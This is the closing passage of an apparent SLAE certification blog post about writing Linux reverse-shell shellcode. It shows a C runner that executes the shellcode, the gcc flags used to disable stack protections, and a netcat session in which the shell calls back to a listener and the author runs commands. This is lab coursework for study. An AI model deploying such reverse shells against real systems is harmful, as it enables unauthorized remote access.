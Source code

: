 ```c
	int (*ret)() = (int(*)())code;

	ret();

}
```

## Final Testing

I set up a netcat listener on my Kali machine at 192.168.1.188 and then compiled the shellcode.c program with `gcc -fno-stack-protector -z execstack -m32 shellcode.c -o rev_shell` and ran `./rev_shell`

```terminal_session
SLAE@ubuntu:~/SLAE/Exam$ ./rev_shell
Shellcode Length:  99
```

```terminal_session
root@astrid:~/petprojects# nc -lvp 1234
listening on [any] 1234 ...
192.168.1.192: inverse host lookup failed: Unknown host
connect to [192.168.1.188] from (UNKNOWN) [192.168.1.192] 57324
id
uid=1000(SLAE) gid=1000(SLAE) groups=1000(SLAE),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
pwd
/home/SLAE/SLAE/Exam
```

It works!!

## Github Repo 

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>

Student ID: SLAE-1458

You can find all of the code used in this blog post [here.](https://github.com/h0mbre/SLAE/tree/master/Assignment2)

